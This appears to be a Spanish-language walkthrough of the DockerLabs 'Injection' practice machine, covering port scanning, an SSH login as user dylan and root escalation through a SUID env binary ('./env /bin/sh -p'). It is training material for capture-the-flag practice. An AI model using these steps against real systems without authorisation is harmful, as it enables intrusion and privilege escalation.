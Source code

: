 # Injection
https://dockerlabs.es

*23/5/2024*


## ENUMERACION

```
└─$ nmap -p- --open --min-rate 5000 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 14:45 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
└─$ whatweb 172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```
![loginapache](https://github.com/M1queaa/DOCKERLABS/assets/108646257/73243f11-c058-454f-8066-694123cb361b)




## ANALISIS DE VULNERABILIDADES

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/ee78adb9-fe76-44ac-8048-14d396fb5291)

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/3b2ca696-f8d8-44b4-a50a-98e6fe57bc46)



## EXPLOTACION

```
└─$ ssh dylan@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@6a8789052cc6:~$ whoami
dylan

```



## POST-EXPLOTACION

```
dylan@6a8789052cc6:~$ sudo -l
-bash: sudo: command not found
dylan@6a8789052cc6:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                         
/usr/lib/openssh/ssh-keysign                                                                                        
/usr/bin/chsh                                                                                                       
/usr/bin/su                                                                                                         
/usr/bin/mount                                                                                                      
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
```


Vemos que podemos aprovechar el binario SUID de env para escalar privilegios

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/67293647-33d5-43a9-883e-f297fff35a68)

```
dylan@6a8789052cc6:/usr/bin$ ./env /bin/sh -p
# whoami
root
```
